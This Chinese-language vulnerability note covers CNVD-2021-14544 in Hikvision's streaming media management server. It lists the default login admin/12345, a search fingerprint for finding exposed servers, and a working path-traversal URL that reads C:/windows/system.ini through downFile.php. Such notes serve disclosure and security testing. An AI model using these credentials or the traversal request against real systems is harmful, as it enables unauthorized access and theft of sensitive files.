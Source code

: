 # HIKVISION 流媒体管理服务器 后台任意文件读取漏洞 CNVD-2021-14544

## 漏洞描述

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞，攻击者可利用该漏洞登录后台通过文件遍历漏洞获取敏感信息

## 漏洞影响

<a-checkbox checked>HIKVISION 流媒体管理服务器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="流媒体管理服务器"</a-checkbox></br>

## 漏洞复现

登录页面如下， 默认账号密码为 `admin/12345`



![img](../../../.vuepress/public/img/hiv-5.png)



POC如下，访问如下Url下载 system.ini文件



```plain
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```



![img](../../../.vuepress/public/img/hiv-6.png)



成功读取 `C:/windows/system.ini`